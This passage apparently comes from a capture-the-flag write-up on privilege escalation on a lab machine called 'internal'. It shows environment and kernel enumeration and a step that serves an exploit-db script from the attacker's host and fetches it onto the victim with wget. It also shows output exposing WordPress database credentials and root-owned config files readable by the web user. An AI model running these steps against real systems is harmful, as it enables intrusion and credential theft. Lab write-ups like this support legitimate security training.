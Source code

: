 
### Enumeration of the system

```
www-data@internal:/$ env

APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=cf201d483a024d4aba79b83b5bba2cf6
APACHE_LOCK_DIR=/var/lock/apache2
PWD=/
JOURNAL_STREAM=9:20121
APACHE_RUN_GROUP=www-data
APACHE_RUN_DIR=/var/run/apache2
APACHE_RUN_USER=www-data
APACHE_PID_FILE=/var/run/apache2/apache2.pid
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
_=/usr/bin/env
OLDPWD=/home
```

```
www-data@internal:/$ uname -a
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

```

try = https://www.exploit-db.com/raw/47167

on local machine => `python3 -m http.server 9000`
on victim => `wget http://10.10.185.107:9000/47167.sh`

```
[+] Searching Wordpress wp-config.php files
wp-config.php files found:
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );

[+] Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root www-data 68 Aug  3  2020 /var/lib/phpmyadmin/blowfish_secret.inc.php
-rw-r----- 1 root www-data 0 Aug  3  2020 /var/lib/phpmyadmin/config.inc.php
-rw-r----- 1 root www-data 527 Aug  3  2020 /etc/phpmyadmin/config-db.php
-rw-r----- 1 root www-data 8 Aug  3  2020 /etc/phpmyadmin/htpasswd.setup

[+] Readable *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .gitconfig, .git-credentials, .git, .svn, .rhosts, hosts.equiv, Dockerfile, docker-compose.yml
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data
-rw-r--r-- 1 root root 2319 Apr  4  2018 /etc/bash.bashrc
-rw-r--r-- 1 root root 646 Apr  7  2017 /etc/phpmyadmin/lighttpd.conf
Reading /etc/phpmyadmin/lighttpd.conf
alias.url += ( 
	"/phpmyadmin" => "/usr/share/phpmyadmin",
)
$HTTP["url"] =~ "^/phpmyadmin/templates" { 
    url.access-deny = ( "" ) 
}
$HTTP["url"] =~ "^/phpmyadmin/libraries" { 
    url.access-deny = ( "" ) 
}
$HTTP["url"] =~ "^/phpmyadmin/setup/lib" { 
    url.access-deny = ( "" ) 
}
```